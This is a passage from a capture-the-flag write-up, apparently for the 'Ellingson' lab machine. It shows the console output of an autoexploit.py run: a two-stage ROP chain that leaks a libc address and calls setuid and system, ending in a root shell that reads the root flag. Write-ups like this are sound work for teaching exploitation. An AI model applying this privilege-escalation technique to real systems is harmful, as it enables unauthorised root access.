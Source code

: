 The exploit script depends on `libc.so.6` and `garbage` binaries being present in the same directory as the exploit script. Note that the libc needs to be switched between exploiting the binary locally and remotely.

Running the exploit against the server gives us a root shell and makes it possible to read the root flag:

```bash
$ python autoexploit.py
[+] Connecting to 10.10.10.139 on port 22: Done
[*] margo@10.10.10.139:
    Distro    Ubuntu 18.04
    OS:       linux
    Arch:     amd64
    Version:  4.15.0
    ASLR:     Enabled
[+] Opening new channel: '/usr/bin/garbage': Done
[*] Mapping binaries
[*] '**REDACTED**/ellingson/exploit/garbage'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded cached gadgets for 'garbage'
[*] '**REDACTED**/ellingson/exploit/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Stage 1 ROP chain:
    0x0000:         0x40179b pop rdi; ret
    0x0008:         0x404028 [arg0] rdi = got.puts
    0x0010:         0x401050 puts
    0x0018:         0x401619 0x401619()
[+] Leaked puts@GLIBCL: \xb2\xb1E\x7f\x00
[*] Loaded cached gadgets for 'libc.so.6'
[*] Stage 2 ROP chain:
    0x0000:   0x7f45b1ace55f pop rdi; ret
    0x0008:              0x0 [arg0] rdi = 0
    0x0010:   0x7f45b1b92970 setuid
    0x0018:   0x7f45b1ace55f pop rdi; ret
    0x0020:   0x7f45b1c60e9a [arg0] rdi = 139937312018074
    0x0028:   0x7f45b1afc440 system
[*] Switching to interactive mode
# $ id
uid=0(root) gid=1002(margo) groups=1002(margo)
# $ cat /root/root.txt
****************************f997
``` 
